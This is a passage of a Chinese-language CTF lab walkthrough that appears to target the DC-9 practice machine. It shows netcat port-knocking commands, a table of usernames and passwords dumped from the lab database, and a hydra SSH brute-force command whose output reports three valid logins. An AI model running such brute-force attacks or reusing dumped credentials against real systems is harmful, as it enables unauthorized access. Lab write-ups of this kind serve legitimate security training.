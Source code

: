 nc 192.168.101.190 8475

nc 192.168.101.190 9842

![20](https://havocykp.github.io/assets/images/img_blog11/20.png)

发现22端口已经开启状态（打开了ssh）



SSH爆破

虽然打开了ssh服务，但是没有用户名和密码，这里一开始收集的用户名和密码就有用了，将爆破数据库的用户名和密码分别保存到name和pass文件中

```javascript
+-----------+---------------+
| username  | password      |
+-----------+---------------+
| marym     | 3kfs86sfd     |
| julied    | 468sfdfsd2    |
| fredf     | 4sfd87sfd1    |
| barneyr   | RocksOff      |
| tomc      | TC&TheBoyz    |
| jerrym    | B8m#48sd      |
| wilmaf    | Pebbles       |
| bettyr    | BamBam01      |
| chandlerb | UrAG0D!       |
| joeyt     | Passw0rd      |
| rachelg   | yN72#dsd      |
| rossg     | ILoveRachel   |
| monicag   | 3248dsds7s    |
| phoebeb   | smellycats    |
| scoots    | YR3BVxxxw87   |
| janitor   | Ilovepeepee   |
| janitor2  | Hawaii-Five-0 |
+-----------+---------------+
admin     transorbital1
```

爆破ssh用户名/密码

```javascript
┌─[root@pendo]─[/home/pendo]
└──╼ #hydra -L user.txt -P passs.txt 192.168.101.190 ssh

[DATA] attacking ssh://192.168.101.190:22/
[22][ssh] host: 192.168.101.190   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.101.190   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.101.190   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found

```

![21](https://havocykp.github.io/assets/images/img_blog11/21.png)

ssh远程登录
